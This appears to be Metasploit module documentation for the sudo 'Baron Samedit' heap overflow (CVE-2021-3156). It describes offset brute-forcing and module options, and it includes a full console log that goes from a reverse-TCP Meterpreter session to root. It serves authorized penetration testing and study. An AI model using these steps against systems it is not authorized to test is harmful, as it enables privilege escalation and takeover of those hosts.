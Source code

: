## Vulnerable Application

A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. The technique used by this
implementation leverages the overflow to overwrite a `service_user` struct in memory to reference an attacker
controlled library which results in it being loaded with the elevated privileges held by sudo.

### Manual Target

The exploit requires a number of lengths / offsets to function correctly. The manual target can be used to specify
these values if they are known. To identify the values, use the `brute.sh` script from the original PoC repository at
[blasty/CVE-2021-3156][1].

On the target system, the rough steps include:

1. Clone the repository, install necessary build tools and GNU parallel (`sudo apt-get install parallel` on Debian-based
  systems)
1. Do: `make brute`
1. Do: `./brute.sh ...` with the desired options to bruteforce, (see the [README.md][2])
1. Wait for the bruteforce to complete, hopefully finding a successful option.

    Successful results will be written to the `success.txt` file. They will look something like this:
    
    ```
    ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
    
    using target: Manual ['/usr/bin/sudoedit'] (56, 57, 60, 200)
    ** pray for your rootshell.. **
    [+] bl1ng bl1ng! We got it!
    ```
    
    In this case `56, 57, 60, 200` are the required values.

1. From Metasploit
    1. Do: `set TARGET Manual` to specify the manual target
    1. Do: `set Lengths 56, 57, 60, 200` to set the explicit lengths (substitute the numbers as necessary)

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/local/sudo_baron_samedit`
1. Set the necessary options (target, payload, etc.)
1. Do: `run`

## Options

### WritableDir

A directory where you can write files. The necessary source code will be uploaded and compiled to here, along with the
payload library.

### Lengths
*This is an advanced option.*

The lengths to set as used by the manual target. See the "Manual Target" section.

## Scenarios

### Ubuntu 20.04.1 x64

```
msf6 exploit(multi/ssh/sshexec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.34:22 - Sending stager...
[*] Command Stager progress -  47.24% done (410/868 bytes)
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.34:45494) at 2021-02-03 17:14:42 -0500
[!] Timed out while waiting for command to return
[*] Command Stager progress - 100.00% done (868/868 bytes)

meterpreter > getuid
Server username: smcintyre @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/ssh/sshexec) > use exploit/linux/local/sudo_baron_samedit 
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(linux/local/sudo_baron_samedit) > set TARGET 1
TARGET => 1
msf6 exploit(linux/local/sudo_baron_samedit) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. sudo 1.8.31 is a vulnerable build.
[*] Writing '/tmp/CEmBxB3Sec.c' (3666 bytes) ...
[*] Writing '/tmp/libnss_X/P0P_SH3LLZ_ .so.2' (532 bytes) ...
[*] Sending stage (3008420 bytes) to 192.168.159.34
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.34:45496) at 2021-02-03 17:15:29 -0500
[+] Deleted /tmp/CEmBxB3Sec.c
[+] Deleted /tmp/CEmBxB3Sec

meterpreter > getuid
Server username: root @ ubuntu (uid=1000, gid=1000, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.159.34
OS           : Ubuntu 20.04 (Linux 5.8.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://github.com/blasty/CVE-2021-3156
[2]: https://github.com/blasty/CVE-2021-3156/blob/da68f7c1a2961595a3226b903f1fc180b8824255/README.md#bruteforce-target-finding-experimental
